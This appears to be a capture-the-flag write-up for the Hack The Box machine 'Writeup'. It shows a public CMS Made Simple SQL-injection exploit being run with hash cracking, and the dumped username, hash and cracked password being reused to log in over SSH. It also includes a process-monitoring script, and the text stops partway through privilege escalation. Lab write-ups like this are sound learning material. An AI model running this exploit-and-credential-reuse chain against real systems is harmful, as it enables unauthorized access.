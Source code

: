 I also find out that http://10.129.1.195/writeup/admin is a valid URL. And it spawns a pop-up login-box.

So we have a lot of possible choices here.

I look at the URL of the different pages: `http://10.129.1.195/writeup/index.php?page=writeup`

Maybe some LFI here? Nothing works.

I also google and the CMS Made Simple < 2.2.10 - SQL Injection is the first thing that pops up.



I download the exploit and run it after looking through it:

```
kali@kali:~/htb/Writeup$ python 46635.py -u http://10.129.1.195/writeup/ --crack -w /usr/share/wordlists/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9

```

Awesome. 

The creds do not work on the webpage. So I try ssh:

```
kali@kali:~/htb/Writeup$ ssh jkr@10.129.1.195
jkr@10.129.1.195's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
/usr/bin/xauth:  file /home/jkr/.Xauthority does not exist
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
jkr@writeup:~$ sudo -l
-bash: sudo: command not found
jkr@writeup:~$ 
```

I did not find anything in the users home folder, nor anything in the /var/www/html folder. And there were no clearly suspicious folders lying around.

So I created a procmon shell-script using vi:

```
jkr@writeup:/tmp$ cat proc.sh 
#!/bin/bash

old_process=$(ps -eo command)

while true; do
        new_process=$(ps -eo command)
        diff<(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|ps|command"
        old_process=$new_process

done

jkr@writeup:/tmp$ ./proc.sh
> /usr/sbin/cron
```